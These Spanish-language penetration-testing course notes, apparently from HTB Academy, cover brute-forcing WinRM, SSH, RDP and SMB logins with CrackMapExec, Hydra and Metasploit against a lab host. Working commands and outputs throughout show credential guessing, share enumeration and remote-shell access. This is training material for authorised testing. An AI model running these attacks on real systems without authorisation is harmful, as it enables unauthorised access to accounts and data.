

# Network Services

Durante nuestras pruebas de penetración, cada red de computadoras que encontramos tendrá servicios instalados para gestionar, editar o crear contenido. Todos estos servicios se alojan utilizando permisos específicos y se asignan a usuarios específicos. Aparte de las aplicaciones web, estos servicios incluyen (pero no se limitan a):

* **FTP**
* **SMB**
* **NFS**
* **IMAP/POP3**
* **SSH**
* **MySQL/MSSQL**
* **RDP**
* **WinRM**
* **VNC**
* **Telnet**
* **SMTP**
* **LDAP**

Para una lectura más detallada sobre muchos de estos servicios, consulta el módulo de Footprinting en HTB Academy.

Imaginemos que queremos gestionar un servidor Windows a través de la red. Para ello, necesitamos un servicio que nos permita acceder al sistema, ejecutar comandos en él o acceder a su contenido mediante una GUI o la terminal. En este caso, los servicios más comunes adecuados para esto son **RDP**, **WinRM** y **SSH**. Aunque SSH es ahora mucho menos común en Windows, sigue siendo el servicio principal para sistemas basados en Linux.

Todos estos servicios tienen un mecanismo de autenticación que utiliza un nombre de usuario y una contraseña. Por supuesto, estos servicios pueden ser modificados y configurados para que solo se puedan usar claves predefinidas para iniciar sesión, pero a menudo están configurados con ajustes predeterminados en muchos casos.

## WinRM

Windows Remote Management (WinRM) es la implementación de Microsoft del protocolo de red Web Services Management Protocol (WS-Management). Es un protocolo de red basado en servicios web XML que utiliza el Simple Object Access Protocol (SOAP) para la gestión remota de sistemas Windows. Se encarga de la comunicación entre el Web-Based Enterprise Management (WBEM) y el Windows Management Instrumentation (WMI), que puede llamar al Distributed Component Object Model (DCOM).

Sin embargo, por razones de seguridad, WinRM debe ser activado y configurado manualmente en Windows 10. Por lo tanto, depende en gran medida de la seguridad del entorno en un dominio o red local donde deseamos usar WinRM. En la mayoría de los casos, se utilizan certificados o solo mecanismos de autenticación específicos para aumentar su seguridad. WinRM utiliza los puertos TCP **5985** (HTTP) y **5986** (HTTPS).

Una herramienta útil que podemos utilizar para nuestros ataques de contraseña es **CrackMapExec**, que también se puede usar para otros protocolos como SMB, LDAP, MSSQL, entre otros. Se recomienda leer la documentación oficial de esta herramienta para familiarizarse con ella.

### Instalación de CrackMapExec

Podemos instalar CrackMapExec a través de apt en un host Parrot o clonar el repositorio de GitHub y seguir los diversos métodos de instalación, como la instalación desde la fuente y evitando problemas de dependencias.

```bash
sherlock28@htb[/htb]$ sudo apt-get -y install crackmapexec
```

### Opciones del Menú de CrackMapExec

Ejecutar la herramienta con la opción `-h` nos mostrará instrucciones generales de uso y algunas opciones disponibles para nosotros.

```bash
sherlock28@htb[/htb]$ crackmapexec -h
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT]
                    [--jitter INTERVAL] [--darrell]
                    [--verbose]
                    {mssql,smb,ssh,winrm} ...
```

```typescript
      ______ .______           ___        ______  __  ___ .___  ___.      ___      .______    _______ ___   ___  _______   ______
     /      ||   _  \         /   \      /      ||  |/  / |   \/   |     /   \     |   _  \  |   ____|\  \ /  / |   ____| /      |
    |  ,----'|  |_)  |       /  ^  \    |  ,----'|  '  /  |  \  /  |    /  ^  \    |  |_)  | |  |__    \  V  /  |  |__   |  ,----'
    |  |     |      /       /  /_\  \   |  |     |    <   |  |\/|  |   /  /_\  \   |   ___/  |   __|    >   <   |   __|  |  |
    |  `----.|  |\  \----. /  _____  \  |  `----.|  .  \  |  |  |  |  /  _____  \  |  |      |  |____  /  .  \  |  |____ |  `----.
     \______|| _| `._____|/__/     \__\  \______||__|\__\ |__|  |__| /__/     \__\ | _|      |_______|/__/ \__\ |_______| \______|

                                         A swiss army knife for pentesting networks
                                    Forged by @byt3bl33d3r using the powah of dank memes

                                                      Version: 5.0.2dev
                                                     Codename: P3l1as
```

```sql
optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output
```

```arduino
protocols:
  available protocols

  {mssql,smb,ssh,winrm}
    mssql               own stuff using MSSQL
    smb                 own stuff using SMB
    ssh                 own stuff using SSH
    winrm               own stuff using WINRM
```

### Ayuda Específica de Protocolos en CrackMapExec

Nota que podemos especificar un protocolo específico y recibir un menú de ayuda más detallado con todas las opciones disponibles para nosotros. CrackMapExec actualmente admite autenticación remota utilizando **MSSQL**, **SMB**, **SSH** y **WinRM**.

```bash
sherlock28@htb[/htb]$ crackmapexec smb -h

usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]
```

### Uso de CrackMapExec

El formato general para utilizar CrackMapExec es el siguiente:

```bash
sherlock28@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```bash
sherlock28@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

La aparición de **(Pwn3d!)** es la señal de que probablemente podemos ejecutar comandos del sistema si iniciamos sesión con el usuario obtenido mediante fuerza bruta. Otra herramienta útil que podemos utilizar para comunicarnos con el servicio WinRM es **Evil-WinRM**, que nos permite comunicarnos con el servicio WinRM de manera eficiente.

### Evil-WinRM

**Instalación de Evil-WinRM**

```bash
sherlock28@htb[/htb]$ sudo gem install evil-winrm
```

```
Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

### **Uso de Evil-WinRM**

```bash
sherlock28@htb[/htb]$ evil-winrm -i <target-IP> -u <usuario> -p <contraseña>
```

```bash
sherlock28@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
```

```vbnet
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\user\Documents>
```

Si el inicio de sesión fue exitoso, se inicia una sesión de terminal utilizando el Protocolo de Comunicación Remota de Powershell (MS-PSRP), lo que simplifica la ejecución de comandos.

## SSH

**Secure Shell (SSH)** es una forma más segura de conectarse a un host remoto para ejecutar comandos o transferir archivos. El servidor SSH opera en el puerto TCP 22 por defecto. Utiliza tres métodos criptográficos:

1. **Cifrado Simétrico**: Usa la misma clave para cifrar y descifrar. Ejemplos: AES, Blowfish, 3DES.
2. **Cifrado Asimétrico**: Utiliza una clave pública y una clave privada para el cifrado y descifrado.
3. **Hashing**: Convierte los datos transmitidos en un valor único para verificar autenticidad.

### **Hydra - SSH**

Podemos utilizar Hydra para forzar ataques de fuerza bruta en SSH.

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197
```

```csharp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak...
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
```

Para iniciar sesión a través de SSH, podemos usar el cliente OpenSSH:

```bash
sherlock28@htb[/htb]$ ssh user@10.129.42.197
```

```css
The authenticity of host '10.129.42.197' can't be established...
user@WINSRV C:\Users\user>
```

## Protocolo de Escritorio Remoto (RDP)

RDP permite el acceso remoto a sistemas Windows a través del puerto TCP 3389. Proporciona acceso completo al entorno gráfico, incluidos los dispositivos de entrada y salida del terminal remoto.

### **Hydra - RDP**

También podemos usar Hydra para realizar ataques de fuerza bruta en RDP.

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```

```less
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] host: 10.129.42.197   login: user   password: password
```

### **xFreeRDP**

Para conectarse al servidor RDP desde Linux, podemos usar el cliente `xfreerdp`:

```bash
sherlock28@htb[/htb]$ xfreerdp /v:<target-IP> /u:<usuario> /p:<contraseña>
```

```bash
sherlock28@htb[/htb]$ xfreerdp /v:10.129.42.197 /u:user /p:password
```

```mathematica
Do you trust the above certificate? (Y/T/N) Y
```

<figure><figcaption></figcaption></figure>

## SMB

El **Server Message Block (SMB)** es un protocolo responsable de la transferencia de datos entre un cliente y un servidor en redes de área local (LAN). Se utiliza para implementar servicios de compartición de archivos y directorios, así como de impresión, en redes Windows. A menudo se le conoce como un sistema de archivos, aunque técnicamente no lo es. SMB puede compararse con **NFS** en sistemas Unix y Linux, ya que ambos permiten compartir unidades en redes locales.

SMB también es conocido como **Common Internet File System (CIFS)**, que es parte del protocolo SMB y permite la conexión remota universal de múltiples plataformas, como Windows, Linux o macOS. Además, es común encontrar **Samba**, una implementación de código abierto de las funciones mencionadas. Para SMB, también podemos usar **Hydra** para probar diferentes combinaciones de nombres de usuario y contraseñas.

### **Hydra - SMB**

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Por favor, no lo use en organizaciones militares o de servicios secretos, ni para fines ilegales (esto es no vinculante, estas *** ignoran las leyes y la ética de todos modos).

Hydra (https://github.com/vanhauser-thc/thc-hydra) iniciando el 2022-01-06 19:37:31
[INFO] Número de tareas reducido a 1 (smb no tolera muchas conexiones paralelas)
[DATA] Máx. 1 tarea por 1 servidor, en total 1 tarea, 25 intentos de inicio de sesión (l:5236/p:4987234), ~25 intentos por tarea
[DATA] Atacando smb://10.129.42.197:445/
[445][smb] host: 10.129.42.197   login: user   password: password
1 de 1 objetivo completado con éxito, se encontraron 1 contraseñas válidas
```

Sin embargo, también podemos obtener el siguiente error, que describe que el servidor ha enviado una respuesta no válida.

### **Hydra - Error**

```bash
sherlock28@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
Hydra v9.1 (c) 2020 por van Hauser/THC & David Maciejak - Por favor, no lo use en organizaciones militares o de servicios secretos, ni para fines ilegales (esto es no vinculante, estas *** ignoran las leyes y la ética de todos modos).

Hydra (https://github.com/vanhauser-thc/thc-hydra) iniciando el 2022-01-06 19:38:13
[INFO] Número de tareas reducido a 1 (smb no tolera muchas conexiones paralelas)
[DATA] Máx. 1 tarea por servidor, en total 1 tarea, 25 intentos de inicio de sesión (l:5236/p:4987234), ~25 intentos por tarea
[DATA] Atacando smb://10.129.42.197:445/
[ERROR] Respuesta no válida del objetivo smb://10.129.42.197:445/
```

Esto ocurre porque probablemente tenemos una versión desactualizada de **THC-Hydra** que no puede manejar respuestas SMBv3. Para solucionar este problema, podemos actualizar manualmente y recompilar **hydra**, o utilizar otra herramienta muy potente, el **framework Metasploit**.

### Metasploit Framework

```bash
sherlock28@htb[/htb]$ msfconsole -q
```

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options 
```

```bash
bashCopiar códigoModule options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
user_file => user.list
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list
pass_file => password.list
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
rhosts => 10.129.42.197
```

```bash
msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Ahora podemos usar **CrackMapExec** nuevamente para ver los recursos compartidos disponibles y los privilegios que tenemos sobre ellos.

### CrackMapExec

```bash
sherlock28@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```

```bash
SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password 
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE      
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC
```

Para comunicarte con el servidor vía SMB, puedes usar, por ejemplo, la herramienta **smbclient**. Esta herramienta te permitirá ver el contenido de los recursos compartidos, subir o descargar archivos si tus privilegios lo permiten.

### Smbclient

```bash
sherlock28@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```

```bash
Enter WORKGROUP\user's password: *******

Try "help" to get a list of possible commands.
```

```bash
smb: \> ls
  .                                  DR        0  Thu Jan  6 18:48:47 2022
  ..                                 DR        0  Thu Jan  6 18:48:47 2022
  desktop.ini                       AHS      282  Thu Jan  6 15:44:52 2022

                10328063 blocks of size 4096. 6074274 blocks available
smb: \> 
```

> **Nota:** Para completar las preguntas del desafío, asegúrate de descargar las listas de palabras proporcionadas en la sección de Recursos al principio de la página.
